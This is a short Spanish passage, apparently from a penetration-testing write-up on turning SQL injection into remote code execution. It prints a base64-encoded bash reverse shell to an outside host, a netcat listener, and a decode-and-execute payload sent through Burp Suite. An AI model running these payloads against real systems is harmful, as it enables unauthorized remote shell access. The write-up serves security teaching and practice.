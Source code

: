 Para recibir una shell inversa debemos convertir el siguiente comando en base64: 

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ echo "bash -i >& /dev/tcp/10.10.14.9/4646 0>&1" | base64               
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ2NDYgMD4mMQo=
```

Y si nos ponemos a la escucha con ```nc -nlvp 4646```, y en Burpsuite realizamos los siguientes pasos podremos obtener la shell.

```bash
echo "YmFzaCAtaSA%252bJiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ2NDYgMD4mMQo="|base64 -d|bash
```

[![sqlinjectrce5](/images/sqlinjectrce5.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectrce5.png)

[![sqlinjectrce6](/images/sqlinjectrce6.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectrce6.png)
